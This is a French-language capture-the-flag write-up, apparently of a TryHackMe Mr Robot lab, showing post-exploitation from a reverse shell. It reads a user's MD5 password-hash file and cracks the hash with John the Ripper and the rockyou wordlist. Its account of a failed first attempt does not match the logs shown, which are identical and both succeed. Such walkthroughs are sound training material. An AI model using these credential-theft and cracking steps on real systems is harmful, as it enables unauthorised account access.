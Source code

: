 Notre attaque a réussi ! Nous avons réussi à obtenir un reverse shell sur la machine cible, voyons ce que nous pouvons faire ensuite !

## Post-exploitation

La room est presque terminée, continuez comme ça !

Pour commencer cette phase, j'aime jeter un coup d'œil rapide dans le répertoire `/home`.

```bash
(remote) daemon@ip-10-10-135-61:/opt/bitnami/apps/wordpress/htdocs/wp-admin$ cd /home/robot/
(remote) daemon@ip-10-10-135-61:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Nov 13 2015 .
drwxr-xr-x 4 root root 4096 Jun 2 18:14 ..
-r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5

```

Nous avons trouvé un utilisateur intéressant nommé **robot** dans son répertoire personnel, nous découvrons 2 fichiers intéressants `key-2-of-3.txt` et `password.raw-md5`.

Bien que nous n'ayons pas l'autorisation de lecture sur `key-2-of-3.txt`, j'ai tout de même essayé de vérifier son contenu mais cela a échoué.

J'ai donc vérifié l'autre fichier qui semble être un hashMD5 → mot de passe de l'utilisateur **robot** ? Peut-être bien :).

```bash
(remote) daemon@ip-10-10-135-61:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
(remote) daemon@ip-10-10-135-61:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```

Ensuite, j'ai utilisé l'outil John pour le cracker en utilisant la liste de mots rockyou. Au début, il a donné une sortie très désordonnée et n'a pas réussi à le cracker.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)
1g 0:00:00:00 DONE (2025-08-03 13:21) 50.00g/s 2025Kp/s 2025Kc/s 2025KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Heureusement pour nous, le format du hash est indiqué dans le nom du fichier → Hash MD5

Essayons de le cracker en utilisant le spécificateur de format MD5 (`--format=Raw-MD5`) pour John

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)
1g 0:00:00:00 DONE (2025-08-03 13:21) 50.00g/s 2025Kp/s 2025Kc/s 2025KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
